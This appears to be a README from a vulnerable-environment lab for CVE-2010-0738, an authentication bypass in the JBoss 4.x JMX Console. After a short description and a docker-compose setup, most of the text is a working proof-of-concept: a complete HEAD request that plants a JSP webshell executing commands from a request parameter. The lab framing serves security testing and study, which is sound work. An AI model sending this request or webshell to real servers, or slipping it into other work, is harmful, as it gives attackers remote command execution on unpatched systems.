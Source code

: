 # Jboss 4.x JMX Console HtmlAdaptor Getshell (CVE-2010-0738)

## Introduction

The JMX-Console web application in JBossAs in Red Hat JBoss Enterprise Application Platform (aka JBoss EAP or JBEAP) 4.2 before 4.2.0.CP09 and 4.3 before 4.3.0.CP08 performs access control only for the `GET` and `POST` methods, which allows remote attackers to send requests to this application's GET handler by using a different method, like `HEAD`.

## Setup

Run

```bash
docker-compose up
```

## Poc

Access to `http://localhost:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.admin%3Aservice%3DDeploymentFileRepository`, find the `store` method.

![1](images/1.png)

and use `HEAD` to post the jsp webshell

```http
HEAD /jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodIndex=6&arg0=..%2Fjmx-console.war%2F&arg1=hax0rwin&arg2=.jsp&arg3=<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True HTTP/1.1
Host: hostx:portx
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9) Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
```

## References

1. https://jbossas.jboss.org/downloads/
2. https://book.iwonder.run/0day/Jboss/%EF%BC%88CVE-2010-0738%EF%BC%89JMX%E6%8E%A7%E5%88%B6%E5%8F%B0%E5%AE%89%E5%85%A8%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E.html